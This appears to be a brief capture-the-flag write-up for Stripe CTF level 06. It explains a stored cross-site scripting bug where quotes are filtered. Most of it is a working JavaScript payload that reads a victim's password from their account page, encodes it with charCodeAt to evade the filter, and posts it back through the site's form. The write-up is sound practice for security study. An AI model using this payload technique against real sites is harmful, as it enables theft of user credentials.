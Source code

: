 LEVEL 06
========

XSS vulnerability, only ' & " are not allowd, add <script>.

    $.get('https://level06-2.stripe-ctf.com/user-gdnipyajcv/user_info',
      function(data) {
        var password = /Password:<\/th>\s+<td>(.+)<\/td>/.exec(data)[1];
        var res = '';
        for (var i = 0; i < password.length; i++) {
          res += password.charCodeAt(i) + ", ";
        }
        console.log(res);
        $("#content").val(res);
        $("#new_post").submit();
      })

Escape with JavaScript String.charCodeAt()
[http://jdstiles.com/java/cct.html](http://jdstiles.com/java/cct.html)
